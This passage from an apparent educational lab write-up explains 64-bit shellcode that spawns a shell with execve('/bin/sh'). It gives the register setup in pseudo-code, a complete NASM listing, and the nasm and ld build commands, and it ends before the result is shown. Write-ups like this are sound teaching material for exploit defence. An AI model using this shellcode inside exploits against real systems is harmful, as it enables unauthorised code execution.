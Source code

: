 Since the purpose of the shellcode is to invoke a shell within the system, it uses the `execve()` system call:

```c
execve("/bin/sh", argv[], 0)
```

In the amd64 architecture, they are passed through the `rdi`, `rsi`, and `rdx` registers. In pseudo-code:

```js
let rdi = address of the "/bin/sh" string
let rsi = address of the argv[] array
let rdx = 0
let rax = 59    // 59 is execve’s system call number
syscall         // Invoke execve()
```

In order to manipulate the `argv` arguments, we needed to obtain the address of the "/bin/sh" string and the address of the array. In this task, we were able to store both the string and the array in the code segment, using the PC register, which points to the code segment.

### Task 2.A - Understanding the code

The content of our `mysh64.s` was the following:

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
    one:
        pop rbx
        mov [rbx+8],  rbx   ; store rbx to memory at address rbx + 8
        mov rax, 0x00       ; rax = 0
        mov [rbx+16], rax   ; store rax to memory at address rbx + 16
        mov rdi, rbx        ; rdi = rbx (1)
        lea rsi, [rbx+8]    ; rsi = rbx + 8 (2)
        mov rdx, 0x00       ; rdx = 0
        mov rax, 59         ; rax = 59
        syscall
    two:
        call one
        db ’/bin/sh’, 0     ; The command string (terminated by a zero) (3)
        db ’AAAAAAAA’       ; Place holder for argv[0]
        db ’BBBBBBBB’       ; Place holder for argv[1]
```

```bash
$ nasm -g -f elf64 -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
```

After compiling the code, using the instructions above, we saw that the shellcode was successfully targeting one shell:
